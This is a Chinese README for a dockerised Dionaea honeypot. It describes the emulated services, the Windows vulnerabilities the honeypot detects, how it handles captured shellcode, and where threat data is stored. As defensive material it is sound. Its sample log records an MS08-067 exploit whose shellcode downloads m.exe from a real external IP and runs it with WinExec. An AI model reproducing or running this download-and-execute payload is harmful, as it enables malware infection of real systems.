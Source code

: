 # dockerized dionaea
一、项目介绍

此项目是将dionaea制作成docker镜像，包含定制该蜜罐的配置文件以及build docker镜像的Dockerfile。
此项目作为多蜜罐项目 **[Multi-Honeypots]** 的一个蜜罐部件。


二、Dionaea蜜罐介绍
[dionaea](https://github.com/DinoTools/dionaea) 是一个低交互服务型蜜罐，
通过fake常用的服务，开放相应的端口吸引攻击记者进行攻击，并记录攻击过程
主要开启的服务包括：
epmap  
ftp
http
memcache
mirror
mqtt
mssql
mysql
pptp
sip
smb
tftp
upnp

主要还是针对RPC服务的模拟和攻击捕获，系统指纹主要包括：

 1:"Windows XP Service Pack 0/1",
 2:"Windows XP Service Pack 2",
 3:"Windows XP Service Pack 3",
 4:"Windows 7 Service Pack 1",
 5:"Linux Samba 4.3.11"
 
默认是2类型的系统指纹，可在配置文件里进行更改。
识别的漏洞类型：
MS08-067（SRVSVC）
MS03-26（DCOM）
MS04-11 （DSSETUP）
MS04-12（ISystemActivator）
MS07-065 
MS05-017（MSMQ）
MS04-031（nddeapi）
MS06-66（NWWKS）
MS05-39（PNP）
MS03-39（WKSSVC）


对于exploitation的过程：

1）shellcode的检测和分析，主要利用libemu模块记录API调用，参数传递过程，
   并做出相应的action。对于需要multi-stage shellcode，不对接收的shellcode
   记录API调用，而是直接执行，做出相应的action。
2）payload：接收到payloads，猜测意图，做出响应
   ① Shells - bind/connectback：返回一个cmd.exe给攻击者，解析输入做出响应
   ② URLDownloadToFile：使用URLDownloadToFile API下载文件并执行。
   ③ Exec:调用WinExec执行命令
   ④ Multi Stage Payloads：在libemu虚拟环境里执行
3）根据下载的URL启用tftp和ftp下载，但是不能抓到嵌在恶意样本里的下载行为或
   启用ftp.exe下载的行为。可以保存恶意样本至本地，或http/post至CWSandbox, 
   Norman Sandbox or VirusTotal

三、威胁数据存储

所有数据存储至/data/dionaea/ 目录下
日志主要输出为json格式和sqlite数据库形式，分别保存至/data/dionaea/log/dionaea.json /data/dionaea/log/dionaea.sqlite，
json日志记录连接情况，sqlite记录攻击细节（sql语句，smb漏洞利用等等）
下载的恶意样本保存至/data/dionaea/binaries 下以哈希值重命名
捕获的数据流保存至/data/dionaea/bistreams
为避免磁盘空间占用过大，多蜜罐系统默认24小时重启一次，且重启后清除
/data/下的数据，并在清除之前将所有数据导入到已部署的MySQL数据库中，
样本打包发送至FTP server或SMB server中

四、威胁事件记录结构

单次完整的攻击过程，在dionaea.sqlite中记录如下：
2010-10-07 20:37:27
connection 483256 smbd tcp accept 10.0.1.11:445 <- 93.177.176.190:47650 (483256 None)
dcerpc bind: 
uuid ‘4b324fc8-1670-01d3-1278-5a47bf6ee188’ (SRVSVC) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘7d705026-884d-af82-7b3d-961deaeb179a’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘7f4fdfe9-2be7-4d6b-a5d4-aa3c831503a1’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘8b52c8fd-cc85-3a74-8b15-29e030cdac16’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘9acbde5b-25e1-7283-1f10-a3a292e73676’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘9f7e2197-9e40-bec9-d7eb-a4b0f137fe95’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘a71e0ebe-6154-e021-9104-5ae423e682d0’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘b3332384-081f-0e95-2c4a-302cc3080783’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘c0cdf474-2d09-f37f-beb8-73350c065268’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘d89a50ad-b919-f35c-1c99-4153ad1e6075’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc bind: uuid ‘ea256ce5-8ae1-c21b-4a17-568829eec306’ (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860 
dcerpc request: uuid ‘4b324fc8-1670-01d3-1278-5a47bf6ee188’ (SRVSVC) opnum 31 (NetPathCanonicalize (**[MS08-67]**))

 profile: {
	‘return’: ‘0x7df20000’,
	‘args’: [‘urlmon’],
	‘call’: ‘LoadLibraryA’
}, {
	‘return’: ‘0’,
	‘args’: [‘’, ‘http: //208.53.183.158/m.exe‘, ‘60.exe’, ‘0’, ‘0’], ‘call’: ‘URLDownloadToFile’}, {‘return’: ‘32’, ‘args’: [‘60.exe’, ‘895’], ‘call’: ‘WinExec’}, {‘return’: ‘0’, ‘args’: [‘-1’], ‘call’: ‘Sleep’]} 

offer: hxxp://208.53.183.158/m.exe download: 3eab379ddac7d80d3e38399fd273ddd4 hxxp://208.53.183.158/m.exe

其他详情可参考：https://dionaea.readthedocs.io/en/latest/configuration.html

附在公网上90天dionaea捕获到的威胁数据统计报告dashboard
![Dionaea Dashboard](https://raw.githubusercontent.com/douwanhu/docker-dionaea/master/doc/dashboard.png)

